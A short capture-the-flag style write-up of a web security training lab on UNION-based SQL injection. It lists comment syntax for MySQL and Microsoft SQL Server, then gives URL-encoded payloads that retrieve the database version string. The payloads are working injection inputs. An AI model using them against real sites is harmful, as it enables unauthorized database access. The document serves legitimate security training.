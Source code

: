 ## SQL injection attack, querying the database type and version on MySQL and Microsoft

### Lab description
This lab contains an SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query. 

**Goal:** display the database version string. 

---

## Steps

For the first - need to known how to comment in MySQL and Microsoft.

Microsoft: **--comment** and **/\*comment\*/** 

MySQL: **#comment** , **-- comment** *[Note the space after the double dash]* and **/\*comment\*/**

Let's analyses: 

```SQL
'+UNION+SELECT+NULL,+NULL%23   200 OK
```
*\* %23 - is **#** after URL-encoding*
```SQL
'+UNION+SELECT+'qwe','123'%23   200 OK
```

For determine version need to use SELECT+@@version.

```SQL
'+UNION+SELECT+@@version,+NULL%23   200 OK
```

>**Congratulations, you solved the lab!**